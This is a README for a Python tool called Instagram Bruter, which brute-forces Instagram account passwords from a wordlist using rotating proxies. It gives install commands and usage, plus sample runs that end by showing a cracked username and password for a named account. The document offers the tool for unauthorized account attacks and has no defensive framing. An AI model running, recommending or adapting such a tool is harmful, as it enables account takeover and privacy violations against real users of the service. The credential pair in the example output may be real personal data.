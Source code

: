 # Instagram Bruter

Re-engineered to work **without** TOR

__Usage:__ `python instagram.py <username> <wordlist> <threads>`
<br>
**Example:** `python instagram.py Sami09.1 pass.lst 16`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install 
```sh
$> python -m pip install --upgrade pip
$> pip install -r requirements.txt
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] username wordlist threads

positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

optional arguments:
  -h, --help  show this help message and exit
```

### Start
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst 16
```

### Run
```
[-] Proxy-IP: 159.89.133.123[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 16
[-] Attempts: 16
[-] Proxies: 395
````

### Stop
```
[-] Proxy-IP: 167.99.12.149[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 22
[-] Proxies: 394

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
